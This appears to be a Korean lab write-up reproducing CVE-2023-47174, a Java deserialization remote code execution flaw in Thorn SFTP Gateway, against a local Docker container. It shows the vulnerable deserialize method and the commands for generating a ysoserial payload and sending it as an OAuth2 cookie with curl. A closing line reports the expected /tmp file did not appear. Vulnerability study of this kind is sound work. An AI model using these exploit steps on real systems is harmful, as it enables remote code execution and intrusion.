 ## 1. 취약점 개요

**제목:** Thorn SFTP Gateway 3.4 직렬화 취약점으로 인한 원격 코드 실행 (CVE-2023-47174)

Thorn SFTP Gateway(버전 3.4.0–3.4.3)가 Spring의 `SerializationUtils`를 사용해 신뢰할 수 없는 데이터를 역직렬화함으로써 원격 코드 실행이 가능한 취약점입니다. 버전 3.4.4으로 업그레이드하여 패치 할 수 있다.

참고 문헌

1. https://nvd.nist.gov/vuln/detail/CVE-2023-47174?utm_source=chatgpt.com
2. [Praetorian write-up “Every Rose Has Its Thorn SFTP Gateway](https://www.praetorian.com/blog/every-rose-has-its-thorn-sftp-gateway/)
3. https://www.praetorian.com/blog/every-rose-has-its-thorn-sftp-gateway/

---

## 2. 환경 구성

다음과 같이 한 줄만으로 PoC 애플리케이션을 빌드·실행할 수 있습니다:

```bash
docker compose up -d --build
```

컨테이너가 기동되면, 웹브라우저(또는 curl)에서 아래 URL에 접속해 엔드포인트가 살아있는지 확인하세요:

```
http://localhost:8080/backend/login/oauth2/code/anything
```

![image.png](attachment:9863d780-9ed3-4720-a50b-61de637c5582:image.png)

별도의 로그인 화면 없이 `"No exploit cookie found."` 메시지가 보이면 정상 구동된 것입니다.

---

## 3. 취약점 분석

관리 코드(`HttpCookieOAuth2AuthorizationRequestRepository`)에 정의된 내부 메서드:

```java
private OAuth2AuthorizationRequest deserialize(String data) {
    byte[] bytes = Base64.getUrlDecoder().decode(data);
    return SerializationUtils.deserialize(bytes);
}
```

`SerializationUtils.deserialize()`가 내부적으로 `ObjectInputStream.readObject()`를 호출하며, 공격자가 제어하는 데이터를 역직렬화하게 됩니다. 

Spring 공식 문서에서도 이 유틸리티 사용 시 다음과 같은 주의를 권고합니다:

> “WARNING: These utilities should be used with caution.”
> 

---

## 4. 익스플로잇

### 익스플로잇 바이너리 생성

```bash
docker run --rm -v "${PWD}:/workspace" -w /workspace maven:3.8-jdk-11 mvn clean package
```

![image.png](attachment:f4ee8e97-c182-466e-a34e-e3e94e307f76:image.png)

### 익스플로잇 + base64 인코딩

```c
docker run --rm -v "${PWD}:/workspace" -w /workspace openjdk:11-jre-slim java -cp "target/payload-generator-shaded.jar:lib/ysoserial-all.jar" com.example.generator.PayloadGenerator
```

![image.png](attachment:9add9b35-48b4-47ec-9f4e-a5cf029844d1:image.png)

## curl 사용으로 PoC 요청(익스플로잇) 보내기

```bash
curl.exe -v -H "Cookie: oauth2_authorization_request=복사한_payload" "http://localhost:8080/backend/login/oauth2/code/anything"

```

![image.png](attachment:98c31271-0830-4f12-9c7a-e04e72a1ee43:image.png)

- PoC 컨테이너(localhost:8080)에 익스플로잇 페이로드를 쿠키로 전송합니다.
- 응답이 `500 Internal Server Error`여도 역직렬화 시도가 성공한 것입니다.

/tmp에 안생겨